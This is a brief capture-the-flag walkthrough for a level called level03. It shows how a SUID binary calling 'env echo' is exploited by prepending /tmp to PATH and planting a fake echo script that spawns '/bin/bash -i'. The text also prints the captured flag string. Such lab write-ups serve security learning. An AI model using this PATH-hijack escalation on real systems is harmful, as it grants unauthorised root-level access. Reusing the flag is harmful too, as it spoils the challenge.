 -ls found a suid file 
-using strings on file get us some informations, when we execute the file output => exploit me
-strings gives us that the suid calls /usr/bin/env echo Exploit me
-so we can create a new echo in /tmp and change the path to begin with /tmp => export path=“/tmp:$PATH”
-created file in tmp should be like: 
	#!/bin/bash
	
	/bin/bash -i
-chmod +x /tmp/echo
-run ./level03 and boom we are flag03
-launched get flag => qi0maab88jeaj46qoumi7maus
